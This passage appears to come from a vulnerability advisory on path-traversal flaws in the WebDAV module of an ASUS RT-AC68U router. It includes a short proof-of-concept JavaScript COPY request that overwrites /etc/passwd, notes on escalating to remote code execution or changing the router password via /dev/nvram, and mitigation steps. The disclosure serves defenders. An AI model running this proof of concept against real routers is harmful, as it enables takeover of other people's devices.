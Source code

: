 This allows an attacker to overwrite arbitrary contents under `/mnt`. Note that an attacker is able to create any file structure they desire with these primitives. However, while the file layout is attacker controlled, the content within the files is not.
#### [###](#analysis) Analysis

Improper sanitation on the source for COPY and MOVE operations allows an attacker to load preexisting files from the router, even without authentication.
#### [###](#mitigation) Mitigation

1. Ensure that `con->physical.path` starts with `/mnt` in the `mod_webdav.so` for `HTTP_METHOD_MOVE` and `HTTP_METHOD_COPY`.

### [##](#move%2Fcopy-clobbering) MOVE/COPY Clobbering

Authenticated arbitrary file write to `/*`. Can escalate to RCE by overwriting executable files, for example `/etc/zcip`. Can also modify internal variables such as the router password by writing to `/dev/nvram`.
#### [###](#poc-1) POC

Create a directory structure as such.
```
/mnt
  /USB-NAME
    /path
      /etc
        passwd

```

Run the below JavaScript.
```
fetch("/RT-AC68U/USB-NAME/path", {
  "headers": {
    "overwrite": "T",
    "destination": "https://domain.tld/",
  },
  "body": "",
  "method": "COPY",
});

```

This will overwrite `/etc/passwd`.
#### [###](#analysis-1) Analysis

Improper sanitation on the target for COPY and MOVE operations gives an attacker an arbitrary file-write primitive.
#### [###](#mitigation-1) Mitigation

1. Ensure that `p->physical.path` starts with `/mnt` in the `mod_webdav.so` for `HTTP_METHOD_MOVE` and `HTTP_METHOD_COPY`.

### [##](#move%2Fcopy-off-by-slash) MOVE/COPY Off By Slash
